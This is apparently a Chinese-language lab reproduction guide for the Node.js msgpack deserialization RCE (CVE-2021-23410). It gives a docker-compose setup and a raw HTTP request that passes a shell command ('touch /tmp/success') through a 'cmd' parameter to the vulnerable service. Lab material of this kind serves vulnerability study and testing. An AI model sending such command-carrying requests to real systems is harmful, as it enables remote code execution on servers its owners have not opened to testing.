


# Nodejs msgpack 反序列化RCE（CVE-2021-23410）

## 影响版本

msgpack <= 1.0.3

## 环境搭建

```
docker-compose up -d
```

环境中 接收到 用户传入的cmd，序列化后再反序列化，最终RCE

## 复现

P.S. 以 cmd=touch /tmp/success 为例

1.  发送 cmd

```
GET /run?cmd=touch+/tmp/success HTTP/1.1
Host: xxxx:9999
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: sessionhash=0e86ef62fc1add2bd8aeae0e6a42124e; lastvisit=1626697934; lastactivity=1626698057; PHPSESSID=6irgn74mso2nrn23i6i4dent01; security=low
Connection: close
Content-Length: 0


```



2. 成功 RCE




